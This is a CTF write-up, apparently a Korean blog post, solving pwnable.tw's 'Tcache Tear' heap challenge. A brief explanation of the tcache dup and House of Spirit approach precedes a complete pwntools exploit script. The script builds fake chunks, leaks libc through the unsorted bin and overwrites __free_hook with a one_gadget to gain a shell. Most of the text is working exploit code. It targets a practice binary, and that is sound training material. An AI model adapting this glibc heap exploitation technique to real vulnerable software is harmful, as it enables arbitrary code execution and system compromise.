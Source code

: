 ```yaml
---
title: "[pwnable.tw]Tcache Tear"
date: 2020-3-16
ctf: Pwnable.tw
layout: post
---
```


* tcache exploit (glibc 2.27 Ubuntu 18.04)
* DFB & House of Spirit 
* tcache dup
* bss fake chunk

너무 재밌게 풀었다.  house of spirit을 이용해 fake chunk를 구성해서 ptr을 변경시키고 free 시켜서 unsorted bin을 leak할 수 있었다. 그 전에 free할 때 다음 청크도 검사하기 때문에 name + 0x500 위치에 또 다른 fake chunk를 만들어주었다. 그 이후로는 tcache dup해주면 되는데 __free_hook을 one_gadget으로 덮어줬다.

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./tcache_tear')
libc = e.libc
# p = process('./tcache_tear')
p = remote('chall.pwnable.tw',10207)
ru = p.recvuntil
sa = p.sendafter
sla = p.sendlineafter
name = 0x0000000000602050
ptr = 0x0000000000602088 # void *ptr
fake = 0x602550 # name + 0x500

def malloc(size,data):
	sa('Your choice :','1')
	sa('Size:',str(size))
	sa('Data',data)

def free():
	sa('Your choice :','2')

def info():
	sa('Your choice :','3')

def quit():
	sa('Your choice :','4')

sa('Name:','A')

malloc(0x80,'A'*8)
free()
free()
malloc(0x80,p64(fake))
malloc(0x80,'B'*8)
fakechunk1 = p64(0) + p64(0x21) + p64(0) * 3 + p64(0x21)
malloc(0x80,fakechunk1)

malloc(0x70,'C'*8)
free()
free()
malloc(0x70,p64(name))
malloc(0x70,'D'*8)
fakechunk2 = p64(0) + p64(0x501) + p64(0) * 5 + p64(name + 0x10)
malloc(0x70,fakechunk2)

free()

info()
libc_base = u64(ru('\x7f')[-6:].ljust(8,'\x00')) - 0x3ebca0
log.info('libc_base : {}'.format(hex(libc_base)))
free_hook = libc_base + libc.symbols['__free_hook']
log.info('__free_hook : {}'.format(hex(free_hook)))
oneshot = libc_base + 0x4f322 # 0x4f2c5 0x4f322 0x10a38c

malloc(0x60,'E'*8)
free()
free()
malloc(0x60,p64(free_hook))
malloc(0x60,p64(0))
malloc(0x60,p64(oneshot))

free()

p.interactive()
```

<br />

## Reference

https://github.com/shellphish/how2heap/tree/master/glibc_2.26